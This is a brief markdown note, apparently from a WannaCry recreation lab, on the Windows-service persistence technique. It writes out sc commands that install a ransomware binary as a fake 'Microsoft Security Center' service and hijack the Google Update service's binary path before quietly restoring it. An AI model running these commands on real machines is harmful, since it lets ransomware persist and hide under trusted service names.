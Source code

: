 # Create or Modify System Process: Windows Service

https://github.com/microsoftarchive/msdn-code-gallery-microsoft/blob/master/OneCodeTeam/A%20basic%20Windows%20service%20in%20C++%20(CppWindowsService)/README.md


-------------------------------------------------------------------------------------------------------------------------------
sc create "mssecsvc2.0" DisplayName = "Microsoft Security Center (2.0) Service" binPath = "C:\Users\nigmaz\source\repos\WannaCry\x64\Release\WannaCry.exe" start = "auto"

sc start mssecsvc2.0
sc stop mssecsvc2.0
sc delete mssecsvc2.0

- sc config gupdate binPath= "C:\Users\nigmaz\source\repos\WannaCry\x64\Release\WannaCry.exe"
- sc start gupdate
- sc config gupdate binPath= "\"C:\Program Files (x86)\Google\Update\GoogleUpdate.exe\" /svc" >nul 2>&1 
